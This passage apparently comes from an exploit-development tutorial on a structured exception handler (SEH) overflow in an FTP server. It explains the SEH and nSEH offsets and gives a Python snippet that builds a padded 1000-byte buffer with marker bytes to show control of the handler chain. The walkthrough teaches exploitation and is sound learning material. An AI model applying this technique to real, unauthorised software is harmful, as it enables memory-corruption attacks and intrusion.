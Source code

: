 Pay attention to why we have two offsets: we need to know what the address of the next SEH is in the chain once SEH is overwritten. We'll need to change the string lengths so we know where/what we're doing, and demonstrate that we can overwrite the address of SEH, and the address of the next SEH (nSEH) for proof of concept that we have control over the application. We can do all of this with some small changes to the skeleton exploit:

```python
SEH = "C"*4        # SEH should read 43434343
nSEH = "B"*4       # The next SEH should have an address of 42424242
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(1000-982-8) # Add 10 D's as padding to maintain a 1000-byte buffer adjusting for the length of A's, B's, and C's
```

Let's make these changes, rerun the exploit, and analyze the SEH chain once again. I'll even add a demo of the modifications to the exploit for those following along:

![screenshot](/assets/images/freeftpd/skeleton_seh2.PNG)
